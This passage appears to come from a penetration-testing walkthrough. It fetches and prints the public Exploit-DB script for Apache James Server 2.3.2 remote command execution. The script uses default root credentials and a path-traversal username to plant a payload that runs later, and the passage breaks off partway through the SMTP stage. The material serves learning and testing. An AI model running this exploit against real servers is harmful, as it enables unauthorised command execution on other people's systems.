 ```text
searchsploit -m 35513
```

You should never run scripts that you haven’t reviewed first, so let’s view the content of this exploit.

```text
#!/usr/bin/python
#
# Exploit Title: Apache James Server 2.3.2 Authenticated User Remote Command Execution
# Date: 16\10\2014
# Exploit Author: Jakub Palaczynski, Marcin Woloszyn, Maciej Grabiec
# Vendor Homepage: http://james.apache.org/server/
# Software Link: http://ftp.ps.pl/pub/apache/james/server/apache-james-2.3.2.zip
# Version: Apache James Server 2.3.2
# Tested on: Ubuntu, Debian
# Info: This exploit works on default installation of Apache James Server 2.3.2
# Info: Example paths that will automatically execute payload on some action: /etc/bash_completion.d , /etc/pm/config.d

import socket
import sys
import time

# specify payload
#payload = 'touch /tmp/proof.txt' # to exploit on any user 
payload = '[ "$(id -u)" == "0" ] && touch /root/proof.txt' # to exploit only on root
# credentials to James Remote Administration Tool (Default - root/root)
user = 'root'
pwd = 'root'

if len(sys.argv) != 2:
    sys.stderr.write("[-]Usage: python %s <ip>\n" % sys.argv[0])
    sys.stderr.write("[-]Exemple: python %s 127.0.0.1\n" % sys.argv[0])
    sys.exit(1)

ip = sys.argv[1]

def recv(s):
        s.recv(1024)
        time.sleep(0.2)

try:
    print "[+]Connecting to James Remote Administration Tool..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,4555))
    s.recv(1024)
    s.send(user + "\n")
    s.recv(1024)
    s.send(pwd + "\n")
    s.recv(1024)
    print "[+]Creating user..."
    s.send("adduser ../../../../../../../../etc/bash_completion.d exploit\n")
    s.recv(1024)
    s.send("quit\n")
    s.close()

    print "[+]Connecting to James SMTP server..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,25))
    s.send("ehlo team@team.pl\r\n")
    recv(s)
    print "[+]Sending payload..."
    s.send("mail from: <'@team.pl>\r\n")
```